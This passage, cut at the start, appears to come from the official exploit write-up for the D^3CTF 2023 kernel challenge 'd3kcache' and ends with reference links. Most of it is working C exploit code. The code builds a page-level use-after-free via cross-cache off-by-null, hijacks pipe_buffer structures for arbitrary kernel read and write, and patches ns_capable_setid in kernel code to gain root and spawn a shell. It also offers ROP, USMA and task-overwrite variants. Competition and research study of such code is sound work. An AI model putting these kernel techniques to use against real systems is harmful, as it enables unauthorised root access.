    vaddr_remapping(pgd_addr, 0x114514000 + 0x1000, dst_paddr + 0x1000);

    /* overwrite kernel code segment directly */

    log_info("[*] Start overwriting kernel code segment...");

    /**
     * The setresuid() check for user's permission by ns_capable_setid(),
     * so we can just patch it to let it always return true :)
     */
    memset(kcode_map + (NS_CAPABLE_SETID & 0xfff), '\x90', 0x40); /* nop */
    memcpy(kcode_map + (NS_CAPABLE_SETID & 0xfff) + 0x40, 
            "\xf3\x0f\x1e\xfa"  /* endbr64 */
            "H\xc7\xc0\x01\x00\x00\x00"  /* mov rax, 1 */
            "\xc3", /* ret */
            12);

    /* get root now :) */
    log_info("[*] trigger evil ns_capable_setid() in setresuid()...\n");

    sleep(1);

    setresuid(0, 0, 0);
    get_root_shell();
}

/**
 * Just for testing CFI's availability :)
*/
void trigger_control_flow_integrity_detection(void)
{
    size_t buf[0x1000];
    struct pipe_buffer *pbuf = (void*) ((size_t)buf + TRD_PIPE_BUF_SZ);
    struct pipe_buf_operations *ops, *ops_addr;

    ops_addr = (struct pipe_buf_operations*) 
                 (((size_t) info_pipe_buf.page - vmemmap_base) / 0x40 * 0x1000);
    ops_addr = (struct pipe_buf_operations*)((size_t)ops_addr+page_offset_base);

    /* two random gadget :) */
    ops = (struct pipe_buf_operations*) buf;
    ops->confirm = (void*)(0xffffffff81a78568 + kernel_offset);
    ops->release = (void*)(0xffffffff816196e6 + kernel_offset);

    for (int i = 0; i < 10; i++) {
        pbuf->ops = ops_addr;
        pbuf = (struct pipe_buffer *)((size_t) pbuf + TRD_PIPE_BUF_SZ);
    }

    evil_2nd_buf.page = info_pipe_buf.page;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1],&evil_4th_buf,sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_2nd_buf,sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
        
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_3rd_buf,sizeof(evil_3rd_buf));

    /* write data into dst page */
    write(pipe_fd[self_2nd_pipe_pid][1], buf, 0xf00); 

    /* trigger CFI... */
    log_info("[=] triggering CFI's detection...\n");
    sleep(5);
    close(pipe_fd[self_2nd_pipe_pid][0]);
    close(pipe_fd[self_2nd_pipe_pid][1]);
}

void exploitation(int argc, char **argv, char **envp)
{
    /**
     * Step.O - fundamental works
     */

    save_status();

    /* bind core to 0 */
    bind_core(0);

    /* dev file */
    dev_fd = open("/dev/d3kcache", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open /dev/d3kcache!");
    }

    /* spray pgv pages */
    prepare_pgv_system();
    prepare_pgv_pages();

    /**
     * Step.I - page-level heap fengshui to make a cross-cache off-by-null,
     * making two pipe_buffer pointing to the same pages
     */
    corrupting_first_level_pipe_for_page_uaf();

    /**
     * Step.II - re-allocate the victim page to pipe_buffer,
     * leak page-related address and construct a second-level pipe uaf
     */
    corrupting_second_level_pipe_for_pipe_uaf();

    /**
     * Step.III - re-allocate the second-level victim page to pipe_buffer,
     * construct three self-page-pointing pipe_buffer 
     */
    building_self_writing_pipe();

    /**
     * Step.IV - leaking fundamental information by pipe
     */
    info_leaking_by_arbitrary_pipe();

    /**
     * Step.V - different method of exploitation
     */

    if (argv[1] && !strcmp(argv[1], "rop")) {
        /* traditionally root by rop */
        privilege_escalation_by_rop();
    } else if (argv[1] && !strcmp(argv[1], "cfi")) {
        /* extra - check for CFI's availability */
        trigger_control_flow_integrity_detection();
    } else if (argv[1] && !strcmp(argv[1], "usma")) {
        privilege_escalation_by_usma();
    } else {
        /* default: root by seeking init_task and overwrite current */
        privilege_escalation_by_task_overwrite();
    }

    /* we SHOULDN'T get there, so panic :( */
    trigger_control_flow_integrity_detection();
}

void banner(void)
{
    puts(SUCCESS_MSG("-------- D^3CTF2023::Pwn - d3kcache --------") "\n"
    INFO_MSG("--------    Official Exploitation   --------\n")
    INFO_MSG("--------      Author: ")"arttnba3"INFO_MSG("      --------") "\n"
    SUCCESS_MSG("-------- Local Privilege Escalation --------\n"));
}

int main(int argc, char **argv, char **envp)
{
    banner();
    exploitation(argc, argv, envp);
    return 0;
}
```

## REFERENCE

[[D^3CTF 2023] d3kcache: From null-byte cross-cache overflow to infinite arbitrary read & write in physical memory space.](https://github.com/arttnba3/D3CTF2023_d3kcache)

[【PWN.0x02】Linux Kernel Pwn II：常用结构体集合](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/)
